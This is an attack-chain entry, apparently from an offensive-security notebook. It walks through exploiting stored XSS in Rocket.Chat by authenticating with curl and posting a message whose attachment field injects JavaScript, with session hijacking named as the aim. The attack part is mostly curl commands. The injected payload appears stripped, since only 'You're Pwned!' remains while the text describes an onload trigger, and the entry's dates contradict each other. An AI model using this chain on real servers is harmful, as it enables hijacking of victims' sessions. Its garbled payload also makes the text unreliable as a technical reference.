

---
tags:
  - xss
  - stored-xss
  - rocket-chat
  - javascript-injection
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Execution]]'
commands:
  - '[[commands/curl-rocket-chat-login]]'
  - '[[commands/curl-rocket-chat-post-message-xss]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Authenticate-to-Rocket.Chat-API]]'
  - '[[procedures/Inject-XSS-via-chat.postMessage]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits a stored XSS vulnerability in Rocket.Chat's chat.postMessage endpoint
  by injecting JavaScript into message attachments, leading to code execution in
  victims' browsers.
skill_level: intermediate
impact_level: high
id: a2f79744-c59b-4cfe-bfb8-20e2c4101857
created_at: '2025-12-13T23:55:06.269Z'
updated_at: '2025-12-13T23:55:06.269Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Stored XSS in Rocket.Chat via Malicious Message Attachments

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in Rocket.Chat, allowing arbitrary JavaScript execution when victims view injected messages.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Rocket.Chat server running on port 3000
- Valid user credentials with permission to post messages
- Target channel or private room ID

### Initial Access Requirements

- Network access to the Rocket.Chat instance (e.g., http://127.0.0.1:3000)
- Attacker account credentials
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Create Channel or Identify Room

procedure: [[procedures/Setup-Rocket.Chat-Channel]]

**Objective**: Establish or select a target channel for posting the malicious message to ensure delivery to victims.

**Instructions**: Manually create a new channel via the Rocket.Chat UI or obtain an existing RoomId for a private conversation. No automated command is required; use the web interface at http://127.0.0.1:3000 to set up the channel named, e.g., "target-channel".

**Expected Output**: Channel created with a name or ID (e.g., "target-channel" or RoomId).

**Success Indicators**:
- Channel visible in the UI
- RoomId obtainable via API if needed

### Step 2: Authenticate to API

procedure: [[procedures/Authenticate-to-Rocket.Chat-API]]

**Objective**: Obtain authentication token and user ID required for authorized API calls.

**Instructions**: Use [[commands/curl-rocket-chat-login]] to authenticate:

```bash
curl http://127.0.0.1:3000/api/v1/login -d "username=<USER_NAME>&password=<PASSWORD>"
```

Extract the "authToken" and "userId" from the JSON response.

**Expected Output**: JSON response with {"authToken": "<TOKEN>", "userId": "<ID>"}.

**Success Indicators**:
- Valid token and ID received
- No authentication errors

### Step 3: Inject XSS Payload

procedure: [[procedures/Inject-XSS-via-chat.postMessage]]

**Objective**: Post a message with a malicious attachment that injects JavaScript, exploiting the lack of HTML encoding in field values.

**Instructions**: Use [[commands/curl-rocket-chat-post-message-xss]] with the obtained token and ID:

```bash
curl -H "X-Auth-Token: <USER_TOKEN>" -H "X-User-Id: <USER_ID>" http://127.0.0.1:3000/api/v1/chat.postMessage -d "channel=<CHANNEL_NAME>&attachments[0][image_url]=/assets/logo&attachments[0][fields][0][title]=&attachments[0][fields][0][value]=You're Pwned!"
```

When a victim views the message in a browser or client (e.g., OSX app, Firefox, Chrome), the onload event triggers the JavaScript.

**Expected Output**: JSON success response {"success": true}, message posted.

**Success Indicators**:
- Message appears in channel
- Alert or custom JS executes on view (test in victim browser)

## Attack Chain Summary

### Key Achievements

1. Successful authentication to Rocket.Chat API
2. Injection of stored XSS payload via attachments
3. Arbitrary JavaScript execution in victim context, enabling session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01*
